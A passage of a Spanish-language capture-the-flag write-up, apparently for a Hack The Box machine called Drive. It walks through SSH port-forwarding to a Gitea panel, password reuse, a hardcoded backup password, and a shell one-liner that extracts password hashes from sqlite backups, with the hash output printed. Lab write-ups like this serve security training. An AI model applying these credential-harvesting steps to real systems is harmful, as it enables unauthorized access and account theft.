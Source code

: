 - Tendremos que realizar un port-forwarding para que nuestro puerto 3000 sea el 3000 de a máquina, esto lo podemos hacer con ssh, siguiendo la sintaxis ``remotePort``:``localhost``:``localPort``:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive]
└─$ ssh -L 3000:127.0.0.1:3000 martin@drive.htb
~~~

- Y si visitamos nuestro puerto 3000, deberíamos ver una GUI de Gitea:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/e8656dbf-e96e-4581-8dc9-6b4b55458093)

- Aquí encontramos a dos usuarios dentro del panel:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/4e3bda29-5eef-4df1-9a6c-e40275dee67e)
	- `crisDisel`
	- ``martinCruz``

- Podemos probar si de casualidad se han rehutilizado contraseñas:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/68d2d09b-acce-4c6e-b830-473cfece89d7)

- Y nos hemos logueado con éxito.
- Si nos metemos al repositorio existente, podremos ver un archivo bash de backups, en el cual la contraseña está hardcodeada:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/7ed6dd92-5bfa-4689-bef0-759130306ac0)

    - Passwd: `H@ckThisP@ssW0rDIfY0uC@n:)`

- Ahora podemos desencriptar los backups.
- Los mandaré todos a una carpeta que crearé llamada backups:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive/databases]
└─$ ls
 1_db.sqlite3   D_db.sqlite3   N_db.sqlite3   O_db.sqlite3            S_db.sqlite3
~~~

- Ahora bien, sabemos por la estructura que la tabla que nos importa es la de `accounts_customuser`, así que automatizaremos la extracción de los hashes, y filtraré en el output para guardar solo las contraseñas:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Drive/databases]
└─$ find \ -name *.sqlite3 2>/dev/null | while read db; do sqlite3 $db --line 'select * from accounts_customuser'; done | grep password | awk '{print $3}'
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=
pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=
pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=
pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=
pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
~~~